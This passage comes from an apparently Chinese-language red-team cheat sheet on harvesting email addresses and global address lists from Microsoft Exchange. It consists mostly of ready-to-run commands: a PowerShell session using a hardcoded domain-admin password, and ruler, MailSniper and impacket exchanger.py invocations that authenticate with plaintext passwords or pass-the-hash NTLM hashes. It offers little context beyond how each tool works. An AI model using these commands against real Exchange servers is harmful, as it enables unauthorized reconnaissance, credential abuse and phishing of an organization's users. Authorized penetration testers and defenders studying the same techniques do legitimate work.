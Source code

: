 域内查询可以使用传统的内网渗透方式导出域用户。也可以使用域管直接远程操作 Exchange 导出邮箱地址。

```
$User = "f8x\administrator"
$Pass = ConvertTo-SecureString -AsPlainText DomainAdmin123! -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://Exchange01.f8x.com/PowerShell/ -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber
Get-Mailbox|fl PrimarySmtpAddress
Remove-PSSession $Session
```

#### /mapi

[sensepost/ruler](https://github.com/sensepost/ruler) - ruler 主要通过 /mapi 模拟 Outlook 通信，通过 /Autodiscover 实现与 Outlook 类似的自动配置能力，ruler 会自动发现 Exchange 域内的域名并访问。但如果攻击者处于域外的话，会因为 DNS 无法解析导致攻击失败，需要攻击者手动配置域名解析。

```
ruler --insecure --url https://MAIL/autodiscover/autodiscover.xml --email test@test.com -u test -p 密码 --verbose --debug abk dump -o list.txt
```

```
ruler-win64.exe --insecure --url https://192.168.123.123/autodiscover/autodiscover.xml --email zhangsan@island.com -u zhangsan -p ZS@123qwe --verbose --debug abk list
ruler-win64.exe --insecure --url https://192.168.123.123/autodiscover/autodiscover.xml --email zhangsan@island.com -u zhangsan --hash 82b6413f42426e0b40e6d0674eb16299 --verbose --debug abk list
```

#### /EWS

[dafthack/MailSniper](https://github.com/dafthack/MailSniper) - 通过 /EWS 指定搜索条件获取 GAL，类似于爆破，很慢。

```
Get-GlobalAddressList -ExchHostname MAIL -UserName CORP\test -Password 密码 -OutFile global-address-list.txt
```

```
# MailSniper.ps1
Get-GlobalAddressList -ExchHostname 192.168.123.123 -username island.com\lisi -password LS@123qwe -OutFile global-address-list.txt
```

#### /rpc

[impacket](https://github.com/SecureAuthCorp/impacket) - 通过 /RPC 接口配合 [MS-OXNSPI] 和 [MS-NSPI] 协议直接获取 AD 中的地址簿信息，最快。

```
python3 exchanger.py DOMAIN/test:密码@MAIL nspi list-tables
python3 exchanger.py DOMAIN/test:密码@MAIL nspi dump-tables -guid xxxx
```
```
python3 exchanger.py island.com/zhangsan@192.168.123.123 -hashes :82b6413f42426e0b40e6d0674eb16299 nspi list-tables
python3 exchanger.py island.com/zhangsan:ZS@123qwe@192.168.123.123 nspi list-tables -count
python3 exchanger.py island.com/zhangsan:ZS@123qwe@192.168.123.123 nspi dump-tables -guid dd5c6c6e-f050-4fef-b91f-4ac4cb16d5cb
```

---